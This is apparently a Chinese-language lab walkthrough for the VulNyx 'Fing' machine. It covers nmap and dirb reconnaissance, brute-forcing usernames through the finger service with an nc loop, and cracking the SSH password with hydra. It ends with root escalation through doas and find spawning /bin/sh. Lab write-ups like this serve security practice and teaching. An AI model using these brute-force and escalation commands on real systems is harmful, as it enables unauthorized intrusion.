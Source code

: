 # 环境

来自[Vulny_Fing](https://vulnyx.com/#Fing)，79端口爆破出用户名，再跑破ssh密码，doas提权

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.10.0/24
```

![image-20240907212335999](image/image-20240907212335999.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.10.17
```

![image-20240907212410806](image/image-20240907212410806.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,79,80 192.168.10.17
```

![image-20240907214237451](image/image-20240907214237451.png)

## 目录扫描

```bash
dirb http://192.168.10.17  #无结果
```

# finger渗透

## 爆破finger用户名

```bash
cp /usr/share/seclists/Usernames/Names/names.txt ./
head -n 1000 names.txt > name.txt
for users in $(cat name.txt); do echo $users | timeout 0.3 bash -c 'nc -vn 192.168.10.17 79 2>/dev/null'; done |grep "Login" |awk '{print $2}'
```

![image-20240907214506580](image/image-20240907214506580.png)

## 爆破ssh密码

```bash
hydra -l adam -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.17 -e nsr -f
```

![image-20240907220919408](image/image-20240907220919408.png)

## 提权

运行一下linpeas.sh脚本，发现存在doas命令，类似sudo的功能

![image-20240907221155366](image/image-20240907221155366.png)

[find提权](https://gtfobins.github.io/gtfobins/find/#shell)

```bash
doas -u root /usr/bin/find . -exec /bin/sh \; -quit
```

![image-20240907221319518](image/image-20240907221319518.png)